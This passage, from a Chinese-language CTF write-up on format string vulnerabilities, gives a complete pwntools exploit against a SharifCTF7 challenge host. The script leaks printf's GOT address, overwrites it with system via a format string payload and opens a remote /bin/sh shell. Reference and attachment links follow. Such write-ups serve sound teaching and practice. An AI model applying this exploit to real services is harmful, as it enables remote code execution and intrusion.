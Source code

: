 以下就是具体的利用代码。

```
from pwn import *
import binascii
p = remote("ctf.sharif.edu", 54518, timeout=1)
printfGOT = 0x0804995c
printfOffset = 0x4cc70
systemOffset = 0x3e3e0
p.sendline("%5$s" + p32(printfGOT))
print p.recvline()
data = p.recv()
printfAddress = data[0:4][::-1]
printfAddress = int(binascii.hexlify(printfAddress),16)
systemAddress = printfAddress - printfOffset + systemOffset
print "printf:", hex(printfAddress)
print "system:", hex(systemAddress)
payload = fmtstr_payload(4, {printfGOT: systemAddress})
p.sendline(payload)
print p.recvline()
print p.recv()
p.sendline("/bin/sh")
print p.recvline()
p.interactive()
```

<br>

**4、参考文章**

[http://bobao.360.cn/ctf/detail/189.html](http://bobao.360.cn/ctf/detail/189.html)

[https://losfuzzys.github.io/writeup/2016/12/18/sharifctf7-guess-persian-nomoreblind/](https://losfuzzys.github.io/writeup/2016/12/18/sharifctf7-guess-persian-nomoreblind/)

[https://github.com/irGeeks/ctf/tree/master/2016-SharifCTF7](https://github.com/irGeeks/ctf/tree/master/2016-SharifCTF7)

<br>

**5、附件**

[https://pan.baidu.com/s/1kV5aqsn](https://pan.baidu.com/s/1kV5aqsn)



**传送门**

[**【技术分享】格式化字符串漏洞利用小结（一）**](http://bobao.360.cn/learning/detail/3654.html)

[**【CTF攻略】格式化字符串blind pwn详细教程**](http://bobao.360.cn/ctf/detail/189.html)


